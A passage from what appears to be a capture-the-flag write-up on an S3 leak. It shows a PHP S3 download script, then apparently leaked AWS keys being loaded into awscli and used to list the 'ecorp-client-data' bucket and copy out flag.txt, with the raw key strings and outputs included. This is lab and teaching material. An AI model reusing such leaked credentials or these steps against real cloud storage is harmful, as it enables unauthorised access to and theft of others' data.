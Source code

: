 ```sh
    //to get the file information from S3
    $result = $s3->getObject(array(
      'Bucket' => $BUCKET_NAME,
      'Key'    => $keyPath
    ));

    header("Content-Type: {$result['ContentType']}");
    header('Content-Disposition: filename="' . basename($keyPath) . '"'); // used to download the file.
    echo $result['Body'];
  } catch (Exception $e) {
    die("Error: " . $e->getMessage());
  }
?>
```

  

Let’s configure those credentials in my personal pc using a profile called `s3leak` using `awscli`

  

```sh
r4y@DESKTOP-3KBF4H7:/mnt/c/Users/Nithissh/Downloads$ aws configure --profile s3leak
AWS Access Key ID [None]: AKIARQVIRZ4UDSDT72VT
AWS Secret Access Key [None]: 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
Default region name [None]: us-east-1
Default output format [None]:
```

  

Inside the bucket, through the following command `aws s3 ls s3://ecorp-client-data --profile s3leak` we can find that there is a **flag.txt** exists in bucket

  

```sh
r4y@DESKTOP-3KBF4H7:/mnt/c/Users/Nithissh/Downloads$ aws s3 ls s3://ecorp-client-data --profile s3leak
2023-06-12 13:32:59       3473 ecorp_dr_logistics.csv
2023-06-12 13:33:00         32 flag.txt
2023-06-12 08:04:25          7 test.csv
```

  

Now we can copy the file named flag.txt through the following command `aws s3 cp s3://ecorp-client-data/flag.txt --profile s3leak ./` to our local directory

  

```sh
r4y@DESKTOP-3KBF4H7:/mnt/c/Users/Nithissh/Downloads$ aws s3 cp s3://ecorp-client-data/flag.txt --profile s3leak ./
download: s3://ecorp-client-data/flag.txt to ./flag.txt
r4y@DESKTOP-3KBF4H7:/mnt/c/Users/Nithissh/Downloads$ cat flag.txt
523dceadbd01555b40ad177433b311b3
```